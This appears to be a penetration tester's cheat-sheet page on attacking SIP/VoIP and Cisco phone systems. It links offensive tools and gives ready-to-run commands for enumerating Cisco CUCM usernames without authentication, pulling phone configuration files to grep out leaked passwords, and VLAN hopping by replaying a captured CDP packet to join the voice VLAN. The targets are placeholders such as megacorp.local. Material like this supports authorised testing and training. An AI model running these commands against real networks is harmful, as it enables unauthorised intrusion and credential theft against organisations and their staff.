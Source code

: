 ```yaml
---
description: Session Initiation Protocol / Voice over IP
---
```


# SIP / VoIP

- [https://medium.com/vartai-security/practical-voip-penetration-testing-a1791602e1b4](https://medium.com/vartai-security/practical-voip-penetration-testing-a1791602e1b4)
- [https://www.hackingarticles.in/penetration-testing-on-voip-asterisk-server-part-2/](https://www.hackingarticles.in/penetration-testing-on-voip-asterisk-server-part-2/)




## Cisco IP Phones

- [https://www.trustedsec.com/blog/seeyoucm-thief-exploiting-common-misconfigurations-in-cisco-phone-systems/](https://www.trustedsec.com/blog/seeyoucm-thief-exploiting-common-misconfigurations-in-cisco-phone-systems/)
- [https://www.n00py.io/2022/01/unauthenticated-dumping-of-usernames-via-cisco-unified-call-manager-cucm/](https://www.n00py.io/2022/01/unauthenticated-dumping-of-usernames-via-cisco-unified-call-manager-cucm/)
- [https://github.com/n00py/CUCMe/blob/main/cucme.sh](https://github.com/n00py/CUCMe/blob/main/cucme.sh)
- [https://github.com/trustedsec/SeeYouCM-Thief](https://github.com/trustedsec/SeeYouCM-Thief)
- [https://github.com/llt4l/iCULeak.py](https://github.com/llt4l/iCULeak.py)
- [https://github.com/Bond-o/vnum](https://github.com/Bond-o/vnum)

Scrap Cisco IP Phone web interfaces to get the corresponding host names:

```
$ for i in `cat hosts/phones_ip.txt`; do curl -s http://$i | grep -oP 'SEP[A-Z0-9]+' | uniq | tee -a phones.txt; done
```

Enumerate Cisco CUCM server for usernames:

```
$ bash cucme.sh CUCM01.megacorp.local
Or
$ python3 thief.py -H CUCM01.megacorp.local --userenum
Or
$ curl -sk 'https://cucm01.megacorp.local:8443/cucm-uds/users?lastName=' | grep -oP '<firstName>.*?</firstName><lastName>.*?</lastName>' | sort -u | tee cucm_users.txt
```

Enumerate Cisco IP Phones for credential leaks:

```
$ python3 iCULeak.py -nA -c CUCM01.megacorp.local -l phones.txt 192.168.1.11
Or
$ for i in `cat hosts/phones.txt`; do curl -s http://cucm01.megacorp.local:6970/$i.cnf.xml | grep -i pass; done
```



### VLAN Hopping on Cisco Voice

- [https://savvyadmin.com/vlan-hopping-on-cisco-voice-enabled-switch-ports/](https://savvyadmin.com/vlan-hopping-on-cisco-voice-enabled-switch-ports/)

Capture the first CDP advertisement while plugged through the phone:

```
$ sudo tcpdump -s 0 -w cdp-packet.cap -c 1 -ni eth0 ether host 01:00:0c:cc:cc:cc
$ sudo tcpdump -vr cdp-packet.cap
```

Relay it once a minute to simulate a legit phone device:

```
$ sudo watch -n 60 "tcpreplay -i eth0 cdp-packet.cap"
```

Configure a sub-interface to access the voice VLAN:

```
$ sudo vconfig add eth0 1337
$ sudo ifconfig eth0.1337 up
$ sudo dhclient -v eth0.1337
```
